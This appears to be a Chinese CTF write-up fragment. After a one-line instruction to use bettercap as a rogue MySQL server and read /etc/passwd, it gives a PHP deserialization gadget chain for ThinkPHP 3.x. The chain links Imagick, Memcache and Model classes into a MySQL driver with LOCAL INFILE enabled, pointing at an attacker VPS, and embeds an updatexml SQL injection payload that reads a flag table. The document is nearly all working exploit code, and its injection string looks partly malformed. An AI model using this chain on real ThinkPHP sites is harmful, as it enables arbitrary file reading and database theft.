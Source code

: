 以本题为演示，使用bettercap做mysql伪服务端读一下/etc/passwd

```php
<?php
namespace Think\Db\Driver{
    use PDO;
    class Mysql{
        protected $options = array(
            PDO::MYSQL_ATTR_LOCAL_INFILE => true    // 开启才能读取文件
        );
        protected $config = array(
            "debug"    => 1,
            "database" => "",
            "hostname" => "your_vps",
            "hostport" => "port",
            "charset"  => "utf8",
            "username" => "root",
            "password" => "root"
        );
    }
}

namespace Think\Image\Driver{
    use Think\Session\Driver\Memcache;
    class Imagick{
        private $img;

        public function __construct(){
            $this->img = new Memcache();
        }
    }
}

namespace Think\Session\Driver{
    use Think\Model;
    class Memcache{
        protected $handle;

        public function __construct(){
            $this->handle = new Model();
        }
    }
}

namespace Think{
    use Think\Db\Driver\Mysql;
    class Model{
        protected $options   = array();
        protected $pk;
        protected $data = array();
        protected $db = null;

        public function __construct(){
            $this->db = new Mysql();
            $this->options['where'] = '';
            $this->pk = 'id';
            $this->data[$this->pk] = array(
                "table" => "mysql.user where  1=updatexml(1,concat(0x7e,user(),31) from test.flag),0x7e),1)#",
                "where" => "1=1"
            );
        }
    }
}
```